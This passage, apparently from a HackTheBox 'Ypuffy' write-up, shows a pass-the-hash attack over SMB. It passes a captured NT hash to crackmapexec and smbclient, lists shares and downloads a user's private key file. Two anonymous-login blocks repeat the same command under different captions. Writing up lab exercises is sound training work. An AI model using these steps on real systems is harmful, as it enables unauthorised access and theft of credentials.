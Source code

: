 ## Pass-the-hash with SMB
Checking for `anonymous` login:
```bash
$ smbclient -L ypuffy.hackthebox.htb -U anonymous
WARNING: no network interfaces found
Enter WORKGROUP\anonymous's password:
session setup failed: NT_STATUS_LOGON_FAILURE
```

Checking for any user named "anonymous" (being on the safer side; from trolls)
```bash
$ smbclient -L ypuffy.hackthebox.htb -U anonymous
WARNING: no network interfaces found
Enter WORKGROUP\anonymous's password:
session setup failed: NT_STATUS_LOGON_FAILURE
```

I can try with `crackmapexec` for `ldap` with the NThash:
```bash
$ crackmapexec ldap `IP` -u alice1978 -H 0B186E661BBDBDCF6047784DE8B9FD8B
LDAP        10.10.10.107    389    YPUFFY           [*] Windows 6.1 (name:YPUFFY) (domain:hackthebox.htb) (signing:False) (SMBv1:True)
Traceback (most recent call last):
  File "/usr/bin/crackmapexec", line 33, in <module>
    sys.exit(load_entry_point('crackmapexec==5.1.4.dev0', 'console_scripts', 'crackmapexec')())
```

`crackmapexec` for `smb` gives as valid:
```bash
$ crackmapexec smb `IP` -u alice1978 -H 0B186E661BBDBDCF6047784DE8B9FD8B
SMB         10.10.10.107    445    YPUFFY           [*] Windows 6.1 (name:YPUFFY) (domain:hackthebox.htb) (signing:False) (SMBv1:True)
SMB         10.10.10.107    445    YPUFFY           [+] hackthebox.htb\alice1978 0B186E661BBDBDCF6047784DE8B9FD8B
```

So, `smbclient` does support pass-the-hash method. I'll try for user alice.
```bash
$ smbclient -L `IP` -U alice1978 --pw-nt-hash=0B186E661BBDBDCF6047784DE8B9FD8B -W hackthebox.local
WARNING: no network interfaces found
Enter HACKTHEBOX.LOCAL\alice1978's password:

        Sharename       Type      Comment
        ---------       ----      -------
        alice           Disk      Alice's Windows Directory
        IPC$            IPC       IPC Service (Samba Server)
SMB1 disabled -- no workgroup available
```

Getting data from alice share:
```bash
smbclient //`IP`/alice -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B --pw-nt-hash
WARNING: no network interfaces found
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 31 08:24:20 2018
  ..                                  D        0  Wed Aug  1 08:46:50 2018
  my_private_key.ppk                  A     1460  Tue Jul 17 07:08:51 2018

                433262 blocks of size 1024. 411540 blocks available
smb: \> mget *
Get file my_private_key.ppk? y
getting file \my_private_key.ppk of size 1460 as my_private_key.ppk (4.0 KiloBytes/sec) (average 4.0 KiloBytes/sec)
smb: \> exit
```
